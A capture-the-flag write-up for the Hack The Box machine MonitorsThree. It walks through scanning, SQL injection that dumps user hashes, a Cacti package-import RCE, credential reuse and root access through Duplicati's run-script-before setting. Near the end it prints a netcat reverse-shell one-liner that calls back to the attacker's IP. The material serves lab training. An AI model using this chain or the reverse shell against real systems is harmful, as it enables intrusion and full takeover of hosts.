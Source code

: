 ## MonitorsThree Hack the Box 10.129.67.153

### Enumeration

First I'll start with an nmap scan on the IP to determine open ports.

	#!/bin/bash

	TARGET=10.129.67.153 && nmap -p$(nmap -p- --min-rate=1000 -T4 $TARGET -Pn | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -A -vv $TARGET -oN nmap/nmap-all-tcp.nmap


	# Nmap 7.94SVN scan initiated Wed Sep 25 21:50:41 2024 as: nmap -p22,80,8084 -A -vv -oN nmap/nmap-all-tcp.nmap 10.129.67.153
	Nmap scan report for 10.129.67.153
	Host is up, received echo-reply ttl 63 (0.051s latency).
	Scanned at 2024-09-25 21:50:41 CDT for 13s

	PORT     STATE    SERVICE REASON         VERSION
	22/tcp   open     ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNwl884vMmev5jgPEogyyLoyjEHsq+F9DzOCgtCA4P8TH2TQcymOgliq7Yzf7x1tL+i2mJedm2BGMKOv1NXXfN0=
	|   256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN5W5QMRdl0vUKFiq9AiP+TVxKIgpRQNyo25qNs248Pa
	80/tcp   open     http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to http://monitorsthree.htb/
	8084/tcp filtered websnp  no-response
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/25%OT=22%CT=%CU=37704%PV=Y%DS=2%DC=T%G=N%TM=66F4CC0E%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 10.313 days (since Sun Sep 15 14:19:41 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=254 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 22/tcp)
	HOP RTT      ADDRESS
	1   53.20 ms 10.10.14.1
	2   53.23 ms 10.129.67.153

	Read data files from: /usr/bin/../share/nmap
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Wed Sep 25 21:50:54 2024 -- 1 IP address (1 host up) scanned in 13.45 seconds


From nmap we can only see 22, and 80. We also notice the IP (10.129.67.153) isn't redirecting to http://monitorsthree.htb/ so we can add this to our /etc/hosts file to fix this.

![hosts](/MonitorsThree/images/hosts.png) 

MonitorsThree homepage:

![Web](/MonitorsThree/images/homepage.png) 


### subdomain enumeration with ffuff

returns the 'cacti' subdomain. We'll also add this to our etc/hosts file.

![ffuf](/MonitorsThree/images/ffuf.png) 

running dirsearch against the cacti subdomain returns a /cacti directory. Lets check it out.

![dirsearch](/MonitorsThree/images/dirsearch.png) 


We can see the website is running cacti version 1.2.26

![cacti](/MonitorsThree/images/cacti.png) 


### Initial foothold



The username field on the website http://monitorsthree.htb is vulnerable to sqli. After running sqlmap we get the folling users and hashes.

admin:

hash: 31a181c8372e3afc59daa863430610d8,

mwatson

hash: c585d01f2eb3e6e1073O92023088a3dd,

janderson

hash: 1e68b6eb84b44d9

We can login to cacti with the following credentials.

Username: admin
Password: greencacti2001

With the metasploit module /exploit/multi/cacti_package_import_rce and the following options set I was able to get a meterpreter shell on the host.

![Foothold](/MonitorsThree/images/foothold.png) 

Once we can an inital shell on the host we can search for php config files using the following connmand and we are able to find a config.php file in /var/www/html/cacti and it has a mysql username of cactiuser. I tried multiple different passwords but ultimately the password is also cactiuser so we can gain access to mysql on the target.


![Foothold](/MonitorsThree/images/mysql.png) 

![Foothold](/MonitorsThree/images/enum-mysql.png) 

We can see there is a cacti database and within the cacti database there are several user* tables. 

![Foothold](/MonitorsThree/images/user-tables.png) 

If we select all from the user_auth table we can see hashes for admin, guest, and marcus users.

### Privilege Escalation

Duplicati is running on port 8200 on the MonitorsThree server. Let's local port forward 8200 to our attacker machine so we can more easily interact with it.


![Netstat](/MonitorsThree/images/netstat.png) 

Once we local port forward port 8200 to our attack machine we can see the duplicati logon page.

![Duplicati](/MonitorsThree/images/duplicati.png) 

Duplicati login

MonitorsThreeDuplicatiBackupPassword2024


Within Duplicate we can create a new backup under the Add backup section.

![Exploit](/MonitorsThree/images/backup2.png) 

I'll name the backup root_flag and make sure to set Encryption to No encryption.



For the Backup destination I'll change it to manual folder and put in a folder path of /source/tmp

![Exploit](/MonitorsThree/images/backup-dest.png) 

For the backp Source data we'll select Source data /root.

![Exploit](/MonitorsThree/images/backup-source.png) 

And for the bacup schedule just unselect 'Automatically run backups'.

![Exploit](/MonitorsThree/images/backup-schedule.png) 



I created the following exploit script and will add it to the /tmp directory of the target with scp.

![Exploit](/MonitorsThree/images/exploit.png) 

I set the permissions on the script to 755 and it is in the tmp directory on the target.

![Exploit](/MonitorsThree/images/setup.png)

Also make sure to set a listener on your attack machine in my case port 4444

1. Next from the duplicati web page from 'settings' we will enable 'run-script-before' 
2. Set path to /source/tmp/root.sh
3. our payload is already in the tmp directory on the target
4. Run 'cacti-backup' on 'Home' --> "run now"


![Exploit](/MonitorsThree/images/my-backup.png) 

hit ok, then from home screen we will run backup now

![Exploit](/MonitorsThree/images/root.png) 

	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.240 4444 >/tmp/f

For Priv-Esc (not just the root-flag, but shell as root):

Enable run-script-before on settings and set its Path to:

	/source/tmp/root.sh

Duplicati is running in docker the / is mounted on /source

I first checked in the root directory and noticed there was no flag and then remembered to go to source. But the above script should give you root privileges on the box and you can retreive the root flag.

![Exploit](/MonitorsThree/images/golder.png) 
